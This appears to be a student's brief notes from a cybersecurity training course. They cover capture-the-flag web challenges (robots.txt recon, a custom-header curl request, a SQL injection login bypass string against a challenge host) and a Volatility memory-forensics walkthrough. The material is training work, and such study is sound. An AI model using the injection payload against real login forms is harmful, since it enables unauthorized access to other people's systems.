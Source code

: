 # Cybersecurity Training

## Mr Robot challenge:
- http://104.248.39.227:10001/
- http://104.248.39.227:10001/robots.txt


- www-data
- id = 33

- Docker hub: for study

## Headache challenge:
- http://104.248.39.227:10002/
- curl http://104.248.39.227:10002/ -H 'wanna-something:the-flag'


HTTP verb:
- Post
- Get
- Put
- Delete

- Post /auth http/4.5..
- user-agent
- Origine:

- Burp suite
- Caido

## Headache challenge:
- http://104.248.39.227:10003/
- login
- http://104.248.39.227:10003/?username=admin'or 5=5 -- -


</hr>
--------------------

- wget http://downloads.volatilityfoundation.org/releases/2.5/volatility_2.5.linux.standalone.zip
- ./volatility_2.5_linux_x86
- ./volatility_2.5_linux_x86 -h
- ./volatility_2.5_linux_x86 -f
- ./volatility_2.5_linux_x86 -f /media/ahmed20078/ahmed78/Documents/Cyber-Projects/dump.raw imageinfo
- ./volatility_2.5_linux_x86 -f /media/ahmed20078/ahmed78/Documents/Cyber-Projects/dump.raw --profile=Win7SP1x64
- ./volatility_2.5_linux_x86 -f /media/ahmed20078/ahmed78/Documents/Cyber-Projects/dump.raw --profile=Win7SP1x64 printkey
- CMI-CreateHive{199DAFC2-6F16-4946-BF90-5A3FC3A60902}
- ./volatility_2.5_linux_x86 -f /media/ahmed20078/ahmed78/Documents/Cyber-Projects/dump.raw --profile=Win7SP1x64 hivelist
- ./volatility_2.5_linux_x86 -f /media/ahmed20078/ahmed78/Documents/Cyber-Projects/dump.raw --profile=Win7SP1x64 printkey -o 0xfffff8a00017d410
- ./volatility_2.5_linux_x86 -f /media/ahmed20078/ahmed78/Documents/Cyber-Projects/dump.raw --profile=Win7SP1x64 printkey -o 0xfffff8a00017d410 -K "flag"
